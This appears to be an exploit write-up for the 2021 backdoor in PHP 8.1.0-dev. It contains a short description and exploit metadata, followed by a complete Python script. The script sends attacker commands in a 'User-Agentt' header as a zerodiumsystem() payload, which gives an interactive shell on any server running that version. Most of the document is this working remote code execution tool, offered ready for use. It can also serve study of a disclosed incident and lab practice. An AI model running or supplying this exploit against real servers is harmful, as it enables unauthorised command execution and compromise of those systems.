

# PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_



PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

* * * 

## POC Script

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:**     
    [https://hub.docker.com/r/phpdaily/php](https://hub.docker.com/r/phpdaily/php)        
    [https://github.com/phpdaily/php](https://github.com/phpdaily/php)    
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- Previous vulnerability references:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    


The following exploit uses the backdoor to provide a pseudo system shell on the host.


```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Be Curious, Learning is Life !
